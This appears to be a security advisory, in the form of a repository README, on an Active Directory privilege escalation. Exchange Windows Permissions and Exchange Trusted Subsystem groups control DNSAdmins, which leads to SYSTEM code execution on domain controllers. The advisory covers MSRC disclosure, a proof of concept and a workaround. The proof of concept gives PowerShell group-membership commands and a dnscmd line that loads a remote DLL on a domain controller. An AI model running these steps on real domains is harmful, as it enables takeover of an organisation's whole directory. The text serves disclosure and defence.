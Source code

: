 ## DNSAdmins group DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) 
and from the **Exchange Trusted Subsystem** security groups to control the DNSAdmins group and then compromise the entire prepared Active Directory domain.
This second part was described in [this work from Shay Ber](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) in 2017


DISCLAIMER: This issue has been responsibly disclosed to MSRC in November 2018 and after a few back and forth emails, they closed the case.
Basically, they could not reproduce the issue in their testing environments. 
However, the DACL of the incriminated object on their side appears to be quite different from the DACL that I observed in several live production AD domains: MSRC side DACL has a few *Deny* ACEs explicitely positioned for the incriminated Exchange security groups, where production side has only *Allow* ACEs.


From there, I can only speculate that either they have an unreleased fix on their testing environments, or their path of Exchange deployment on AD is different
from what is commonly observed on live domains, which are upgraded and not redeployed on CU releases.


* Description of the issue

In up-to-date deployments of Exchange 2016 in Shared permissions (default) or RBAC split permissions, three controlling ACEs are positioned on the "CN=DNSAdmins,CN=Users" group for the **Exchange Windows Permissions** 
and for the **Exchange Trusted Subsystem** security groups.

These ACE are probably positioned during an update or a particular CU install. I have been confirmed they exist on other organizations production environments.

If the aformentionned *Deny* ACEs are positioned on your environment, it is probably *NOT* vulnerable.


Account	ACE type	Inheritance	Permissions	On property/ Applies to	Comments
Exchange Windows Permissions	Allow ACE	All	WriteProp	ManagedBy /	
Exchange Windows Permissions	Allow ACE	All	WriteProp	Member /
Exchange Trusted Subsystem	Allow ACE	All	WriteDACL	/ Group

* Technical consequence

Any member of Exchange Windows Permissions can add members to DNSAdmins. 

![EWP effective access](DNSAdmins_EWP.png "EWP effective access")


Any member of Exchange Trusted Subsystem can modify DNSAdmins DACL to grant himself permission to add members to it.

![ETS effective access](DNSAdmins_ETS.png "ETS effective access")

The DNSAdmins group has a particular privilege to remotely load DLLs on domain controllers in the SYSTEM context (by design, as MSRC case 38121 reported by Shay Ber). 

* Security Consequence

Any member of the Organization Management group can execute code remotely on the domain controllers in the SYSTEM context, taking complete control of the Active Directory domain.

* Proof of concept

1)
##
# From an Organization Management member account, add yourself to Exchange Windows Permissions
# This is possible by default and normal
##
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user

2)
LOG OUT AND RELOG THE USERS SESSION to update groups in token

3)
##
# Add yourself to DNSAdmins
# This is the problem, it should not be possible
##
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "DNSAdmins" -Members $user

4)
LOG OUT AND RELOG THE USERS SESSION to update groups in token

5)
# Choose a domain controller and remotely change a registry key to load a dll (needs specific exports) on next DNS service restart:
dnscmd test_domain_controller /config /serverlevelplugindll \\NetworkPath\to\dll


* Workaround fix

Manually with LDP: bind as a Domain Admin account with the usual precautions, as you will change the DNSadmins group DACL.

Backup the DACL: (Get-Acl "AD:\CN=DNSAdmins,CN=Users,DC=...").Sddl | Out-File "dnsadmins_dacl.txt"

Locate the "CN=DNSAdmins,CN=Users,DC=..." security group. Disable ACE inheritance and choose to copy existing ACEs. Locate and delete the 3 faulty ACE in the DACL: you can sort by Trustee to see Exchange Windows Permissions and Exchange Trusted Subsystem.

TODO: powershell fix script.

